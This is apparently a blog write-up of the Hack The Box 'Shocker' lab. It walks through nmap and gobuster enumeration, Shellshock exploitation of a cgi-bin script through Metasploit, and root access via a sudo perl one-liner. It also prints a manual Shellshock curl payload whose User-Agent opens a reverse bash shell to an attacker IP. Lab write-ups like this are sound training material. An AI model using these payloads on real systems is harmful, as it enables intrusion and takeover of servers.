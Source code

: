 ```yaml
---
title:     "Hack The Box - Shocker"
tags: [linux,easy,sudo,shellshock]
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/1.png)

We are going to pwn Shocker from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/108>


Like always begin with our Nmap Scan.

## Nmap Scan Results:
```
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.2 (95%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%), Linux 4.8 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Check whats in the webpage<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/2.png)

Like always lets try bruteforcing the webpage to find any interesting page.

## Gobuster Results:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/02 21:00:28 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2019/12/02 21:04:36 Finished
===============================================================
```
> /cgi-bin  is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website. 

May be if we found any scripts available on ``/cgi-bin/`` we can do ``shellshock`` exploit as the name of the box ``Shocker`` gives us a clue.

Lets bruteforce `` /cgi-bin/ `` , I gave extensions as ``sh,py,pl`` to check for any scripts.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/3.png)<br/>
My guess is correct there is an ``user.sh`` script available

For more info
> https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/

There is a module for shellshock exploit, Lets fire up the metasploit

> use exploit/multi/http/apache_mod_cgi_bash_env_exec

We need to give the location of the script in ``TARGETURI`` 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/4.png)

Lets check first whether it is vulnerable or not!
It is Vulnerable so run this and we can get an shell.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/5.png)

We have an user called ``shelly``

## Privilege Escaltion:

I uploaded my Linux Enumeration Script and found that ``perl`` can run as root without password.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/6.png)

Lets check GTFOBins

>https://gtfobins.github.io/gtfobins/perl/

``sudo perl -e 'exec "/bin/sh";``

Running this command will make us root

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/7.png)

We got ROOT ~

## Method 2 (Without Metasploit)

We can get shell without using metasploit

Reference:
>https://medium.com/@hackbotone/shellshock-attack-on-a-remote-web-server-d9124f4a0af3

So All we need to do is run this command on our machine and listening on another terminal

> curl -A '() { :; }; /bin/bash -i > /dev/tcp/10.10.14.17/9000 0<&1 2>&1' http://10.10.10.56/cgi-bin/user.sh

It is injecting on the `` User-Agent `` on the request header.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-shocker/8.png)

WE got ``shelly`` and Privilege Escalation is as same as before.